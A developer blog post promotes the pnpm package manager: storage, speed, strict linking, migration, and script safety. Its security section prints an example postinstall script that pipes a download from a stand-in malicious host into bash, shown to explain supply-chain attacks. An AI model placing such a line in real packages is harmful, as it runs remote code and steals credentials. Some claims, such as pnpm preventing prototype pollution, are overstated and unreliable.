 ﻿---
title: "PNPM – When Devs No Longer Wait for NPM to “Run Errands”"
description: "If install time feels like waiting on someone else’s grocery trip, it’s time to let pnpm take over."
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-when-devs-stop-waiting-for-npm"
author: "Hien Nguyen"
ogTitle: "PNPM – When Devs No Longer Wait for NPM to Run Errands"
ogDescription: "If install time depends on NPM’s grocery run, it’s time for pnpm to handle it."
pairSlug:
  vi: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
---

# PNPM – When Devs No Longer Wait for NPM to “Run Errands”

> “npm install” cranks your fans and nukes your disk? Time to give **pnpm** a spin.

---

## The Familiar Story

You clone a repo and run:

```bash
npm install
```

And then… you wait.  
And wait.  
And keep waiting.

Maybe you try **Yarn**—a bit better—but it still downloads the same package ten times for ten different projects.  
`node_modules` bloats into gigabytes, disks fill up, and CI crawls like a sleepy turtle.

That was the scene before **pnpm** showed up.

---

## How PNPM Differs from NPM and Yarn

In short: **pnpm stores dependencies completely differently.**

| Mechanism       | NPM / Yarn                              | PNPM                                                                      |
| --------------- | --------------------------------------- | ------------------------------------------------------------------------- |
| Storage         | Copies every package per project        | Uses a **global content-addressable store**; projects just **symlink** in |
| Disk Usage      | Heavy, lots of duplication               | Very light; saves tons of space                                           |
| Install Speed   | Average                                  | **2–3× faster** (cache + hard links)                                      |
| Version Control | Managed per project                      | Laser-accurate thanks to **strict symlink resolution**                    |
| Script Security | **Automatically runs `postinstall`**     | **Doesn’t run scripts unless you opt in**                                 |

---

## Security — PNPM’s Underrated Superpower

This is the piece many devs overlook—but it’s huge.

### The Problem with NPM/Yarn

When you run `npm install` or `yarn install`,  
packages can **auto-run scripts** like:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

If you’re not auditing closely—or your CI isn’t sandboxed—that code just executed on your machine. Supply-chain attacks like this are everywhere: pull a Node.js repo (maybe for a coding test), run `npm i`, and boom—malware fires, scraping env vars for API keys, GitHub tokens, AWS creds. In September 2025 several popular packages such as `chalk` and `debug` were compromised, cascading into hundreds of dependents; the “Shai-Hulud” worm replicated across millions of installs, leaking secrets simply because install scripts auto-ran. This is a **classic attack vector**, especially dangerous for juniors or teams that don’t audit dependencies.

### PNPM Handles It Smarter

- **No script runs by default**—you have to explicitly allow it.
- You can set `--ignore-scripts` globally in `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Keeps **third-party payloads dormant**—grab a random repo, run `pnpm i`, and malicious scripts stay asleep instead of stealing keys or spreading.
- PNPM also sandboxes `node_modules`, preventing **module A from overriding module B**—attacks such as _prototype pollution_ or _dependency shadowing_ basically disappear.

> Translation: pnpm installs packages without blindly trusting them—exactly what you want after the latest supply-chain incidents.

---

## A Different Design Mindset

### 1. “Global Store” — Smart Disk Usage

PNPM keeps dependencies in a single global store (by default: `~/.pnpm-store`).  
Each package exists **once**—projects just link to it.

```bash
# First project
pnpm install

# Another project later
pnpm install   # Almost instant; packages already cached
```

### 2. “Strict Linking” — No Loose Dependencies

PNPM builds `node_modules` via a custom “virtual store.”  
Dependencies can only reach modules declared in `package.json`.

Benefits:

- No more “hidden dependency” bugs (importing something you never declared).
- Builds are reproducible—CI won’t fail because someone’s laptop leaked globals.

---

## Quick Migration

Already on NPM or Yarn?

```bash
npm install -g pnpm
# Or on Node 18+ with corepack
corepack enable pnpm
```

Switch your scripts:

```bash
pnpm install
pnpm run dev
```

Everything else—scripts, tooling—keeps working.  
You’ll feel the speed boost on the first run.

---

## When Not to Switch (Yet)

- Teams running **Yarn 1 workspaces + heavy custom plugins**—test carefully.
- Legacy CI/CD stacks without pnpm cache support.
- A few tools (rare) still assume classic `node_modules` structure.

That said, with **Node 18+ and corepack**, pnpm is now silky smooth.  
Vercel, Turborepo, Nx, Cloudflare Workers—they all support it out of the box.

---

## TL;DR

|                 | NPM               | Yarn        | PNPM                                   |
| --------------- | ----------------- | ----------- | -------------------------------------- |
| Speed           | Slow              | Faster      | Fastest                                |
| Disk Usage      | Heavy             | Medium      | Very light                             |
| Script Safety   | Auto-runs scripts | Auto-runs   | **Doesn’t run unless you allow it**    |
| Global Cache    | No                | Partial     | Full                                   |
| Isolation       | Low               | Medium      | **High (symlink isolation)**           |
| Best For        | Any small/legacy  | Mid-size    | **Pro teams / modern CI pipelines**    |

---

## Official Resources

- [pnpm.io](https://pnpm.io)
- [PNPM store structure](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

_Written by a dev whose `node_modules` used to outweigh the source code.  
With pnpm the disk stays slim, builds fly, and CI stays calm._

